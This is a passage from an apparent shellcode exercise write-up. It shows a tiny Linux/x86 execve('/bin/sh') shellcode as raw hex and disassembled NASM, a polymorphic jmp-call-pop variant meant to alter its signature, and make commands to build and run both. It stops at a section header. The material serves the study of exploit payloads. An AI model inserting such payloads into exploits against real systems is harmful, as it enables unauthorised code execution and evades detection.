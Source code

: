## 2. Linux/x86 - Tiny Execve sh

- Original shellcode size : 21 bytes
- Polymorphic shellcode size: 20 bytes (4% decrease)
- Source code: [Linux/x86 - Tiny Execve sh](http://shell-storm.org/shellcode/files/shellcode-841.php)

### Original Shellcode

To convert the shellcode to assembly:
```
echo -e "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" | \
ndisasm -u - | cut -f4- -d" " | column -t
```
{% highlight nasm linenos %}
global _start

_start:
  xor   ecx,ecx
  mul   ecx
  mov   al,0xb
  push  ecx
  push  dword 0x68732f2f
  push  dword 0x6e69622f
  mov   ebx,esp
  int   0x80
{% endhighlight %}

#### Polymorphic Shellcode

{% highlight console linenos %}
global _start

_start:
	jmp short shell_str ; get address of shell

sys_call:
	pop ebx             ; ebx = /bin/sh
	push byte 0xb       ; execve = 11 ~ 0xb
  pop eax
 	int 0x80

shell_str:
	call sys_call
	shell: db '/bin/sh'
{% endhighlight %}

### POC

- Compile the assembly code: `make target=filename`
- Run the shellcode C wrapper: `make target=filename run-shellcode`

#### Original Shellcode
